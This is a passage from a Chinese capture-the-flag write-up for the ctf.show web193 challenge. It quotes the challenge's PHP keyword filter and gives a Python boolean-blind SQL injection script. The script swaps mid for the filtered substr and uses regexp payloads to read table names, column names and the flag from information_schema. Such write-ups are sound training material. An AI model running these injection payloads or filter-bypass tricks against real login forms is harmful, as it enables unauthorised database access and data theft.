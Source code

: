 ```python
                break

if "__main__" == __name__:
    dump = get_dump()
    print("[+]the flag is :",dump)
```

## web193~mid截断字符串

> ```
> if(preg_match('/file|into|ascii|ord|hex|substr/i', $username)){
>         $ret['msg']='用户名非法';
>         die(json_encode($ret));
>     }
> ```

又把`substr` 过滤了

但是我们可以使用 `mid` 代替。

* [MID 函数用于从文本字段中提取字符](https://www.w3school.com.cn/sql/sql_func_mid.asp)

写个脚本

(哈哈哈，表名和前面的不一样了，大半天没跑出来。。)

```python
# Author: yanmie

import requests

url = "http://83decdb8-6686-4d24-9a8f-1a51156a0e21.chall.ctf.show/api/"
flag = "{abcdefghijklmnopqrstuvwxyz0123456789-}_"

# 查询字段中内容
def get_dump():
    # payload = "0'or((mid((select group_concat(table_name) from information_schema.tables where table_schema=database()),{},1))regexp('{}'))='1"
    # 得到 ctfshow_flxg
    # payload = "0'or((mid((select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flxg'),{},1))regexp('{}'))='1"
    # 得到 id  f1ag
    payload = "0'or((mid((select group_concat(f1ag) from ctfshow_flxg),{},1))regexp('{}'))='1"
    i = 0
    dump = ""
    while True:
        i += 1
        for j in flag:
            data = {
                "username": payload.format(i, j),
                "password": 0,
            }
            response = requests.post(url=url, data=data)
            # print(i,j,data)
            if "密码错误" in response.json()['msg']:
                dump += j
                print(dump)
                if "}" in dump:
                    return dump
                break

if "__main__" == __name__:
    dump = get_dump()
    print("[+]the flag is :",dump)

```